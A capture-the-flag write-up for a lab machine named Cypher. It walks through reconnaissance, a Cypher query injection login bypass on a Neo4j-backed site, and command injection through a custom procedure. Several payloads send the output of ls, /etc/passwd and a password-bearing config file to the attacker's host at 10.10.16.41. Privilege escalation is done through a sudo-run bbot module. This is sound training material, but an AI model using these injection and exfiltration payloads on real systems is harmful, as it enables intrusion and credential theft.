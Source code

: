 # Cypher

### Machine Information

![machine info](./images/Cypher.png)

Target: **10.10.11.57**

## Reconnaissance

```bash
$ nmap -sV -sC 10.10.11.57
```

![nmap](./images/nmap.png)

* 22/tcp, OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
* 80/tcp, HTTP nginx 1.24.0 (Ubuntu)
  - Redirects to cypher.htb

First, it is necessary to update the local DNS in `/etc/hosts` by adding a new record:

```bash
$ sudo echo '10.10.11.57  cypher.htb' >> /etc/hosts
```

Visiting `http://cypher.htb`, the following result is obtained:

![cypher page](./images/cypher_page.png)

No relevant information is found by visiting the "visible" paths, except for the presence of a `Login` form.

![cypher login page](./images/cypher_login_page.png)

A Gobuster instance is launched to enumerate directories.

```bash
$ gobuster dir -u http://cypher.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

![gobuster](./images/gobuster.png)

The scan detected the presence of the `testing/` directory:

![testing dir](./images/testing.png)

Download it and analyze:

![apoc tree](./images/apoc_tree.png)

* [Neo4j](https://neo4j.com) is a Graph Database Management System (GDBMS).

A Java class decompiler was used to inspect the `.class` files.

For example, in this case, [Decompiler](https://www.decompiler.com/) was used.

![hello procedure](./images/hello_function.png)

![custom procedure](./images/custom_function.png)

It appears that `Neo4j` provides developers with the ability to perform graph queries using the declarative language `Cypher`.

* [Cypher](https://neo4j.com/product/cypher-graph-query-language/) is a declarative graph query language.

Additionally, from the [cheat sheet](https://neo4j.com/docs/cypher-cheat-sheet/5/all/), it was found that procedures can be invoked using the `CALL` clause.

> The CALL clause is used to call a procedure deployed in the database.

These two functions appear to be procedures that can be called.

The most interesting one seems to be `getUrlStatusCode`, as it executes the `curl` command, accepting a URL parameter passed in the query.

**IDEA**: Cypher query injection.

## Login bypass

The login form is exploited.

![login injection 1](./images/login_injection_1.png)

![login injection 2](./images/login_injection_2.png)

Now, an attempt is made to call the `getUrlStatusCode` procedure to retrieve information about the username and password.

![login injection 3](./images/login_injection_3.png)

![uname](./images/uname.png)

The same approach is used to capture the hashed password. The following was obtained:

- graphasm:9f54ca4c130be6d529a56dee59dc2b2090e43acf

It is an SHA1 hash, as indicated by the query being attacked.

An attempt is made to crack the hash, but without success. The next idea is to modify the behavior.

![db hash](./images/hash.png)

Since the hash value returned by the query is used, it is possible to return a custom hash value to bypass authentication.

![hash payload](./images/hash%20payload.png)

![logged](./images/logged.png)

Successfully logged in as `graphasm`!

![demo page](./images/demo.png)

## Query Injection

A Cypher query injection is attempted to obtain relevant system information.

```Cypher
CALL custom.getUrlStatusCode('http://10.10.16.41:8000?q=`ls| tr " " "_" | tr "\n" "_"`;') yield statusCode
```

![ls](./images/ls.png)

![ls result](./images/ls_res.png)

```Cypher
CALL custom.getUrlStatusCode('http://10.10.16.41:8000?q=`cat /etc/passwd | tr " " "_" | tr "\n" "_"`;') yield statusCode
```

![/etc/passwd](./images/etc_passwd.png)

![/etc/passwd result](./images/etc_passwd_res.png)

![/etc/passwd result](./images/etc_passwd_clean.png)

```Cypher
CALL custom.getUrlStatusCode('http://10.10.16.41:8000?q=`whoami | tr " " "_" | tr "\n" "_"`;') yield statusCode
```

- neo4j

It is possible to navigate `/home/graphasm/`:

```Cypher
CALL custom.getUrlStatusCode('http://10.10.16.41:8000?q=`ls /home/graphasm/ | tr " " "_" | tr "\n" "_"`;') yield statusCode
```

Located files:

- user.txt
- bbot_preset.yml

However, `user.txt` is not readable, while `bbot_preset.yml` contains the following content:

```Cypher
CALL custom.getUrlStatusCode('http://10.10.16.41:8000?q=`cat /home/graphasm/bbot_preset.yml | tr " " "_" | tr "\n" "_"`;') yield statusCode
```

![bbot_preset.yml](./images/bbot_preset_retrive.png)

- neo4j:cU4btyib.20x**********hK

An SSH connection is attempted with `graphasm` using the discovered password:

![graphasm ssh access](./images/graphasm_ssh.png)

Successfully accessed with:

- graphasm:cU4btyib.20x**********hK

## Privilege Escalation

![sudo -l](./images/sudo_l.png)

[bbot](https://www.blacklanternsecurity.com/bbot/Stable/) is a recursive internet scanner for hackers.

It offers some functionalities, and during the study of the program, it was found that `custom modules` can be created.

![bbot docs](./images/bbot_dev_docs.png)

[How to write a BBOT Module](https://www.blacklanternsecurity.com/bbot/Stable/dev/module_howto/)

**IDEA**: Exploit BBOT to read arbitrary sensitive data.

A module `mymodule.py` is built:

![ls root](./images/ls_root.png)
and a `my_preset.yml` is defined for this module:

![my_preset.yml file](./images/my_preset.png)

Launch BBOT with the custom preset and module:

```Bash
sudo /usr/local/bin/bbot -p ./my_preset.yml -m mymodule
```

![ls root result](./images/ls_root_res.png)

The command was successfully executed! The flag is retrieved.

![cat root](./images/cat_root.png)

![cat root result](./images/cat_root_res.png)

[+] Completed.

